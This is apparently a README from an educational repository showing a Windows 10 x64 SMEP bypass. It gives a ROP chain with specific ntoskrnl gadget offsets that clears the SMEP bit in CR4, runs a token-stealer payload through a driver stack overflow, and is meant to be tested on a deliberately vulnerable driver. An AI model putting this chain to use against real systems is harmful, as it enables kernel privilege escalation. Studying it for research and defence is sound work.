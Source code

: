 # WindowsSMEPBypass
Example of SMEP bypass in Windows 10 1709 x64 for Paged Out. Kudos to **Gynvael Coldwind** and **Mateusz Jurczyk** for the review.

# Brief description

Vulnerability: Stack based overflow in a third-party driver.

1. **Leak ntoskrnl address**
    - *NtQuerySystemInformation*
2. **Setup payload**
    - *ROP Chain*: We use only gadgets in ntoskrnl. Exactly, ntoskrnl *10.0.17763.678*
						
						pop rcx (1)
						ptr_userland_memory
						nt!KiSaveInitialProcessorControlState
						mov rax, dword [rcx+0x18] (2)
						pop rcx (1)
						0xFFFFFFFFFFEFFFFF
						and ecx, eax (3)
						mov cr4, ecx (4)
						OFFSET TOKEN STEALER
						mov cr4. ecx (4)
						ret (5)
						
						
		
		
	(1) ntoskrnlBase + 0xdb8f = **nt!AuthzBasepRemoveSecurityAttributeValueFromLists**+0x7b
	
	(2) ntoskrnlBase + 0x2bb1f = **nt!MiGetSubsectionDriverProtos**+0xb
	
	(3) ntoskrnlBase + 0x0a3dc3 = **nt!MiGetPteAddress**+0xf
	
	(4) ntoskrnlBase + 0x76a02 = **nt!KiFlushCurrentTbWorker**+0x12
	
    - *Payload*: We want to elevate our privileges, so our payload is Token Stealer. It is in payload.asm
3. **Trigger vuln**
    - *DeviceIoControl*

# Important

You need a vulnerable driver to test this. You can make your own or find some vulnerable. You can check HEVD(Hacksys Extreme Vulnerable Driver).
